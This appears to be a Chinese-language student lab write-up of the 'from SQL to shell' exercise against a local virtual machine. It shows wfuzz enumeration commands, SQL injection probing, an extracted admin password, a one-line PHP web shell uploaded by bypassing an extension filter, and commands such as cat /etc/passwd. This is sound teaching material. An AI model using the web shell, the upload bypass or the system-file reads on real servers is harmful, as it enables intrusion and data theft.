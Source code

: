 # Chapter 7:from sql to shell

## 实验环境

Attack与Victim设置均为NAT网络

Attack IP: 10.0.2.15    

Victim IP: 10.0.2.5

![](https://raw.githubusercontent.com/U2Vino/ns/Chapter7/2017-2/ifconfig.PNG)

## 实验过程

### 指纹

#### 检查HTTP标头

![](https://raw.githubusercontent.com/U2Vino/ns/Chapter7/2017-2/SendHTTP.PNG)

* 攻击机使用浏览器访问目标服务器，使用burpsuite查看response包

![](https://raw.githubusercontent.com/U2Vino/ns/Chapter7/2017-2/index_php.PNG)

![](https://raw.githubusercontent.com/U2Vino/ns/Chapter7/2017-2/Response.PNG)

#### 使用wfuzz检测web服务器页面和目录

运行命令来检测远程文件和目录：

python wfuzz.py -c -z file,wordlist/general/big.txt --hc 404 http://10.0.2.5/FUZZ

![](https://raw.githubusercontent.com/U2Vino/ns/Chapter7/2017-2/wfuzz.PNG)

检测服务器上的PHP脚本：

python wfuzz.py -z file -f commons.txt --hc 404 http://10.0.2.5/FUZZ.php

### SQL注入的检测和利用

#### 基于整数的检测

通过地址 http://10.0.2.7/cat.php?id=2-1 获取的页面与id=1时获取页面相同，存在SQL注入漏洞。

![](https://raw.githubusercontent.com/U2Vino/ns/Chapter7/2017-2/php2-1.PNG)

#### UNION 关键字

*  递增查询列数,列数为4时，返回正确结果

![](https://raw.githubusercontent.com/U2Vino/ns/Chapter7/2017-2/union12.PNG)

![](https://raw.githubusercontent.com/U2Vino/ns/Chapter7/2017-2/union1234.PNG)

#### Order By 关键字

* 使用order by语句来检测查询列的数目，数目大于4时，返回报错信息

![](https://raw.githubusercontent.com/U2Vino/ns/Chapter7/2017-2/orderby3.PNG)

![](https://raw.githubusercontent.com/U2Vino/ns/Chapter7/2017-2/orderby5.PNG)

### 检索信息

* 通过@@version，current_user()和database()获得数据库版本信息、当前用户信息以及数据库名

![](https://raw.githubusercontent.com/U2Vino/ns/Chapter7/2017-2/version.PNG)

![](https://raw.githubusercontent.com/U2Vino/ns/Chapter7/2017-2/current_user.PNG)

![](https://raw.githubusercontent.com/U2Vino/ns/Chapter7/2017-2/database.PNG)

* 查询表中信息

![](https://raw.githubusercontent.com/U2Vino/ns/Chapter7/2017-2/table.PNG)

* 检索到管理员密码

![](https://raw.githubusercontent.com/U2Vino/ns/Chapter7/2017-2/password.PNG)

通过MD5在线解密工具解密，得到密码：P4ssw0rd

* 以管理员身份登录

![](https://raw.githubusercontent.com/U2Vino/ns/Chapter7/2017-2/admin_index_php.PNG)

### 上传Webshel​​l和代码执行

* 编写php脚本

<?php

  system（$ _ GET ['cmd']）;

?>

* 找到上传文件界面

![](https://raw.githubusercontent.com/U2Vino/ns/Chapter7/2017-2/shellphp1.PNG)

* 以.php为后缀的文件上传失败

![](https://raw.githubusercontent.com/U2Vino/ns/Chapter7/2017-2/shellphp2.PNG)

* 文件shell.php.test绕过过滤，上传成功。

![](https://raw.githubusercontent.com/U2Vino/ns/Chapter7/2017-2/shellphptest1.PNG)

![](https://raw.githubusercontent.com/U2Vino/ns/Chapter7/2017-2/shellphptest2.PNG)

* 使用cmd=umname获得服务器当前系统版本

![](https://raw.githubusercontent.com/U2Vino/ns/Chapter7/2017-2/cmd_uname.PNG)

* 使用cmd=ls获取当前目录的内容

![](https://raw.githubusercontent.com/U2Vino/ns/Chapter7/2017-2/cmd_ls.PNG)

* 还可以用cat /etc/passwd 获取系统用户的完整列表

* .....
